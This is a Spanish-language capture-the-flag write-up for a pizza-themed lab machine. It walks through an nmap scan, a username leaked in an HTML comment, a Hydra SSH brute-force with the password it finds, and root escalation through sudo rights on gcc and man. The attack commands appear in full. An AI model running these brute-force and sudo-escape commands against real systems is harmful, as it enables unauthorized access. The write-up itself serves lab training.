 # Fase 1- Tanteo
![image](https://github.com/haw441kings/ThehHackersLabs-WriteUps/assets/136659799/ecd69669-9859-4e1e-9aa6-d9d01014c9da)
En esta fase inicial, realizamos un escaneo de puertos para identificar los servicios disponibles en la máquina objetivo. Utilizamos la herramienta Nmap con una serie de opciones para obtener información detallada y realizar un análisis exhaustivo de los puertos abiertos.
### Comando Nmap utilizado:

`sudo nmap -p- --open -sS -sC -sV --min-rate 5000 -vvv -n -Pn 192.168.52.139 -oN Escaneo`

### Detalles del Comando:

- `sudo nmap -p- --open -sS -sC -sV --min-rate 5000 -vvv -n -Pn 192.168.52.139 -oN Escaneo`
- `-p-`: Escaneo de todos los puertos.
- `--open`: Muestra solo puertos abiertos.
- `-sS`: Escaneo SYN para determinar el estado de los puertos.
- `-sC`: Activa detección de versiones y vulnerabilidades.
- `-sV`: Escaneo de versiones de servicios.
- `--min-rate 5000`: Velocidad mínima de escaneo.
- `-vvv`: Verbosidad muy alta para información detallada.
- `-n`: Desactiva la resolución de DNS.
- `-Pn`: Ignora la detección de hosts en línea.
- `192.168.52.139`: IP de la máquina objetivo.
- `-oN Escaneo`: Guarda resultados en archivo "Escaneo".

### Resultados:

#### Puertos Abiertos:

2.  **22/tcp(SSH):** OpenSSH 9.2p1 
3. **80/tcp(HTTP):** Apache httpd 2.4.59

### Puerto 80
Al identificar que el puerto 80 estaba abierto durante el escaneo, se procedió a ingresar la dirección IP en el navegador. Se encontró una pagina de pizzas.
![image](https://github.com/haw441kings/ThehHackersLabs-WriteUps/assets/136659799/72f68755-c15a-458b-b971-3d7153111cad)

# Fase 2- Exploración

#### Codigo
![image](https://github.com/haw441kings/ThehHackersLabs-WriteUps/assets/136659799/5700a8c8-9b6c-4667-8ee0-f89f7c6e0e73)
Revisando el codigo encontramos que en la linea 85 tiene un mensaje que dice:
```
<!-- Puedes creer que hay fanáticos de la pizza de piña que se ponen de usuario pizzapiña -->
```
Tenemos usuario para realizarle fuerza bruta.

# Fase 3- Explotación

#### Hydra
![image](https://github.com/haw441kings/ThehHackersLabs-WriteUps/assets/136659799/e49c85a8-0cb0-4736-b44a-368455dc862a)
Realizamos fuerza bruta al protocolo `ssh` al usuario `pizzapiña` y encontramos su contraseña: `steven`. Comando utilizado:
```python
hydra -l pizzapiña -P /usr/share/wordlists/rockyou.txt ssh://192.168.1.4
```

# Fase 4- Privilegios

#### Sudo -l
![image](https://github.com/haw441kings/ThehHackersLabs-WriteUps/assets/136659799/7bd5ff9a-ced7-4098-a256-054099983fd0)

Despues de realizar el tratamiento de la TTY, vemos que tenemos permisos de ejecutar el binario `gcc` como usuario el `pizzasinpiña`.

#### Gcc
Para escalar utilizando este binario tenemos que ejecutar el siguiente comando:
```python
sudo -u pizzasinpiña gcc -wrapper /bin/sh,-s .
```

![image](https://github.com/haw441kings/ThehHackersLabs-WriteUps/assets/136659799/e10e3455-028a-4812-b2d3-73b2d1f214f8)

Y ya somos el usuario `pizzasinpiña`.

#### Pizzassinpiña
![image](https://github.com/haw441kings/ThehHackersLabs-WriteUps/assets/136659799/7b09f32e-02cb-4e30-ad99-0c9ef3c265a7)

Como el usuario `pizzasinpiña` podemos ejecutar el binario `man` como el usuario `root`.

#### Man
Para escalar tenemos que ejecutar el comando:
```
> sudo man man
```

![image](https://github.com/haw441kings/ThehHackersLabs-WriteUps/assets/136659799/a77635b2-7075-4d14-a11f-54d5394d54be)

Una vez aquí, tenemos que ejecutar el comando:
```
!/bin/sh
```

Así debería de quedar:
![image](https://github.com/haw441kings/ThehHackersLabs-WriteUps/assets/136659799/3d93396e-d658-49d3-a2fb-55e114a70439)

![image](https://github.com/haw441kings/ThehHackersLabs-WriteUps/assets/136659799/0b484a06-9131-48ed-a967-ffad0b4feb69)

Y listo! somos root!.
